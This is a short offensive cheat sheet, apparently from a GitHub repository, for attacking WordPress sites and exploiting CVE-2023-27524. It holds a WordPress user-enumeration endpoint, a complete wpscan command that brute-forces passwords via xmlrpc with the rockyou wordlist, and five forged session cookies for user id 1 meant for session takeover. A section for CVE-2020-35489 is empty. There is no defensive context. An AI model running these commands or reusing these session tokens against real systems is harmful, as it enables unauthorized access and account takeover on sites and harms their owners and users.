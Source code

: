 # wordpress

# wordpress contact form 7 vuln
```
/wp-content/plugins/contact-form-7/
```
# Username Enumeration slugs 
```
/wp-json/wp/v2/users
```
# attack Brute force via Enumeration
```
wpscan --url https://test.com -U 'user1,user2' -P /usr/share/wordlist/rockyou.txt --password-attac xmlrpc
```

__________________
# CVE's

## CVE-2020-35489  
```

```

## CVE-2023-27524

### Sessions

```
eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZKFnng.XPeCvkBiP7rOv1PhgKZ8xkzi2jk
```
```
eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZKFu3g.k_WNoBY1ouhQyOXa5UcYdjVVuq0
```
```
eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZKG_fg.KalpJbMq1SZPCBuunG9-ycDX9HM
```
```
eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZKG_zQ.FPiBfT39gn2slf--XZHsk0rByEY
```
```
eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZKHAPQ.zRjwotMHJES3eW8fJH8F_5GlD-U
```
__________________
